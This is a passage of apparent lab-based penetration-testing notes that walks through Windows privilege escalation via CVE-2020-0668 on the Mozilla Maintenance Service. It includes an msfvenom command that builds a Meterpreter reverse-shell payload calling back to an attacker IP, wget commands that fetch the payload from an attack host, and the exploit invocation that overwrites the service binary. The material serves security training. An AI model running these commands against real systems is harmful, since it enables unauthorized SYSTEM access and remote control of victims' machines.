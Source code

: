 We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The (non-system protected) binary for this service is located below.

- **C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe**

**Checking Permissions on Binary**

```powershell
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

**icacls** confirms that we only have read and execute permissions on this binary based on the line **BUILTIN\Users:(I)(RX)** in the command output.

![[Esempio_CVE-2020-0668_2.png]]

**Generating Malicious Binary**

Let's generate a malicious **maintenanceservice.exe** binary that can be used to obtain a Meterpreter reverse shell connection from our target.

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

**Download the Malicious Binary**

We can download it to the target using cURL after starting a Python HTTP server on our attack host.

For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.

We need to do this because running the exploit corrupts the malicious version of **maintenanceservice.exe** that is moved to (our copy in **c:\Users\htb-student\Desktop** that we are targeting) **c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe** which we will need to account for later. If we attempt to utilize the copied version, we will receive a **system error 216** because the .exe file is no longer a valid binary.

```shell-session
python3 -m http.server 8080

wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

**Running the Exploit**

```shell
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                                    
```

**Checking Permissions of New File**

The exploit runs and executing **icacls** again shows the following entry for our user: **INLPE-WS02\htb-student:(F)**. This means that our htb-student user has full control over the maintenanceservice.exe binary, and we can overwrite it with a non-corrupted version of our malicious binary.
